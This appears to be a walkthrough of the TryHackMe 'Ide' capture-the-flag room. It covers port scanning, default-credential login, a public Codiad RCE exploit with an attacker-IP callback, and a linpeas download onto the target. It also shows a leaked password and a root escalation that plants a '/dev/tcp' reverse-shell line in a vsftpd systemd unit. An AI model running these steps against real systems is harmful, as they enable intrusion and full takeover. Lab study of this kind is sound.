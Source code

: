 # Ide Walkthrough
<br/>

## Intro
Welcome into the new Ide challenge, here is the link to the [web-page](https://tryhackme.com/r/room/ide) on TryHackMe.
To solve the room we will have to do some enumeration, looking scrupulously  everywhere, locate the vulnerability and exploit it to gain the initial access. Finally we will have to do a bit of privilege escalation to become root and read the flag.

Whenever you feel ready press "Start Machine" and connect via OpenVPN or use the AttackBox.

Let's do it!

<br/>
<br/>

## The Challenge
Let's begin with a port scan with *nmap*:
```bash
nmap -sV -p- MACHINE_IP
```

```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
62337/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))

Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

(my suggestion is to first do the quick scan on common ports, when you get the output you start investigating it, while at the same time you start the longer scan on all the ports)

Logging into the FTP server with the anonymous user and giving a looks around 
```bash
cd ...
```

```bash
get -
```

Reading the file we can understand that some passwords have been resetted and the guy suggest to use the default credentials.
So we know the username is `john` and for the default password i have tried some of the commons default ones and the top used, came out it is `password`, quite easy, but we could also brute force it.

Navigating to `http://ide.thm:62337/` we can notice it is running Codiad 2.8.4. With a quick search in exploitDB we can see there is an RCE exploit, here is the link to the GitHub [repo](https://github.com/WangYihang/Codiad-Remote-Code-Execute-Exploit).

We can clone the repository to our device:
```bash
git clone https://github.com/WangYihang/Codiad-Remote-Code-Execute-Exploit.git
```

Now run the exploit inserting the target and your IP:
```bash
python3 exploit.py http://MACHINE_IP:62337/ john password ATTACKER-IP 62337 linux
```

Follow the instruction in the terminal and open up the listener and in a couple of seconds you will have the shell.

Looking around we can see that there is a  use called *drac*, so we need to login as this guy.

We can speed up things downloading *Linpeas* to the target machine, which will scan for some vulnerabilities, clear text creds and other vector to escalate our privileges.

If you do not have it installed do: `sudo apt install peass`, and copy the .sh file in the current working directory with:
```bash
cp /usr/share/peass/linpeas/linpeas.sh .
```

On your machine, in the directory with the linpeas.sh file we can create a simple python server:
```bash
python3 -m http.server
```

On the target navigate to the `/tmp` directory and download the script:
```bash
cd /tmp
```
```bash
wget http://ATTACKER-IP:8000/linpeas.sh
```

Now make the file executable and run it:
```bash
chmod +x linpeas.sh
```
```bash
./linpeas.sh
```

Reading trough the tool's report we can see that the poor Drac has its password exposed at:
```
/home/drac/.bash_history:mysql -u drac -p 'Th3dRaCULa1sR3aL'      
```

Now we can either change use with `su drac` if you have upgraded the reverse-shell or SSH as him.
If you chose SSH method:
```bash
ssh drac@MACHINE_IP
```

If you want to upgrade the current revserse-hell follow this [guide](https://github.com/Maat-Cyber/Maat-Cyber-World/blob/16131058b9089c6a11aa80f90378237b33199d47/Tips-%26-Resources/Reverse_Shell-Upgrade.md).

Once logged in we can get our first flag:
```bash
cat /home/drac/user.txt
```

<br/>

### Privilege Escalation
The last objective is to gain the root access to get the flag, lets do it!

We can check what we can run as `sudo` with drac user:
```bash
sudo -l
```
We get this output:
```
User drac may run the following commands on ide:
    (ALL : ALL) /usr/sbin/service vsftpd restart
```

This means that we can run as super user the command to restart the FTP server.

To exploit it we have to find the config file first:
```bash
find / -name "*vsftpd*"
```

I found there are 2 locations, but checking the files permissions we are allowed to modify only the second one:
```
/lib/systemd/system/vsftpd.service
/etc/systemd/system/multi-user.target.wants/vsftpd.service
```

Now we can make some changes:
```bash
nano /etc/systemd/system/multi-user.target.wants/vsftpd.service
```

```
[Unit]
Description=vsftpd FTP server
After=network.target

[Service]
Type=simple
ExecStart=/usr/sbin/vsftpd /etc/vsftpd.conf
ExecReload=/bin/kill -HUP $MAINPID
ExecStartPre=/bin/bash -c 'bash -i >& /dev/tcp/<local-ip>/1234 0>&1'

[Install]
WantedBy=multi-user.target

```
Basically we are only modifying line 9, this way when the service start will make a connection to our machine and, since we are restarting the service as super user, we will be logged in as root.


Reload the daemon:
```bash
systemctl daemon-reload
```

Everything looks ready, on our machine we can start a listener:
```bash
nc -lvnp 1234
```

And on the target finally execute as sudo the command:
```bash
sudo /usr/sbin/service vsftpd restart
```

Finally we can get the flag
```bash
cat /root/root.txt
```

<br/>
<br/>

Congratulations you have successfully pwnded the Ide machine.

Catch you in the next CTF 😃
